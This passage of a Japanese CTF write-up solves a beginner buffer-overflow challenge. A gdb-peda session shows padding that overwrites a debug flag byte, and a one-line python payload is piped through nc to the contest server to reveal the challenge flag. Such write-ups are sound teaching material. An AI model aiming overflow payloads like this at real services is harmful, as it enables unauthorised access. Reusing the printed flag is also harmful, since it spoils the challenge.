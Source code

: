 `if(debug_flag=='1'){`から`0x5610e35871a8 <main+63>:    cmp    BYTE PTR [rbp-0x1],0x31`より、`BYTE PTR [rbp-0x1]`が0x31になるようなpaddingを調査した。

```bash
[-------------------------------------code-------------------------------------]
   0x5610e358719b <main+50>:    mov    rdi,rax
   0x5610e358719e <main+53>:    mov    eax,0x0
   0x5610e35871a3 <main+58>:    call   0x5610e3587070 <__isoc99_scanf@plt>
=> 0x5610e35871a8 <main+63>:    cmp    BYTE PTR [rbp-0x1],0x31
   0x5610e35871ac <main+67>:    jne    0x5610e35871b8 <main+79>
   0x5610e35871ae <main+69>:    mov    eax,0x0
   0x5610e35871b3 <main+74>:    call   0x5610e35871da <debug>
   0x5610e35871b8 <main+79>:    lea    rax,[rbp-0x10]
[------------------------------------stack-------------------------------------]
0000| 0x7ffed3b0e6f0 ('A' <repeats 15 times>, "1")
0008| 0x7ffed3b0e6f8 ("AAAAAAA1")
0016| 0x7ffed3b0e700 --> 0x0
0024| 0x7ffed3b0e708 --> 0x7f5b16070d90 (<__libc_start_call_main+128>:  mov    edi,eax)
0032| 0x7ffed3b0e710 --> 0x0
0040| 0x7ffed3b0e718 --> 0x5610e3587169 (<main>:        endbr64)
0048| 0x7ffed3b0e720 --> 0x100000000
0056| 0x7ffed3b0e728 --> 0x7ffed3b0e818 --> 0x7ffed3b108ae ("/shared/bof_source")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 2, 0x00005610e35871a8 in main ()
gdb-peda$ x/20b $rbp-0x1
0x7ffed3b0e6ff: 0x31    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7ffed3b0e707: 0x00    0x90    0x0d    0x07    0x16    0x5b    0x7f    0x00
0x7ffed3b0e70f: 0x00    0x00    0x00    0x00
gdb-peda$ c
Continuing.
[DEBUG]:flag is CTF{THIS_IS_NOT_TRUE_FLAG}
Hello AAAAAAAAAAAAAAA1.
[Inferior 1 (process 51) exited normally]
Warning: not running
```

本番環境

```bash
$ python3 -c 'print("A"*15 + "1", end="")' | nc uectf.uec.tokyo 30002
What is your name?
>[DEBUG]:flag is UECTF{ye4h_th1s_i5_B0f_flag}
Hello AAAAAAAAAAAAAAA1.
```

```
UECTF{ye4h_th1s_i5_B0f_flag}
```



## [Forensics] Deleted (53solves)
